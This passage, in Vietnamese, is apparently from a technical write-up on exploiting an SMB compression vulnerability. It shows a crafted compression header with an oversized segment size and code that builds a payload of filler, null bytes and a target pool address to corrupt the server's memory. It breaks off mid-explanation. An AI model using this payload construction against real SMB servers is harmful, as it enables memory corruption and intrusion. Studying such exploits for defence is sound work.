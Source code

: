 Tương tự như vậy, ta sẽ chèn thêm một sentinel bên dưới bằng cách gửi gói tin sau:
``` c
Header:
-   Id = 0x424d53fc
-   OriginalCompressedSegmentSize = 0xffffffff
-   CompressionAlgorithm = 1
-   Flag = 0
-   Offset = 0x2
Data:
data = sentinel
data_to_compress = os.urandom(0x1100 - len(data))
// 0x18 null bytes that override the struct.
data_to_compress += b'\x00'*0x18
// Target address.
data_to_compress += struct.pack('<Q', allocation_pool_object_ptr + 0x1650 + 0x28)
data = data + compress(data_to_compress)
```

Như vậy khi SMB server nhận gói tin, nó sẽ cấp phát vùng nhớ tương ứng, lúc này vùng nhớ được cấp phát là allocation_pool_object_ptr và nó sẽ chứa dữ liệu như sau:

![](pic2/pic34.PNG)

Sau quá trình giải nén thì dữ liệu sẽ là:
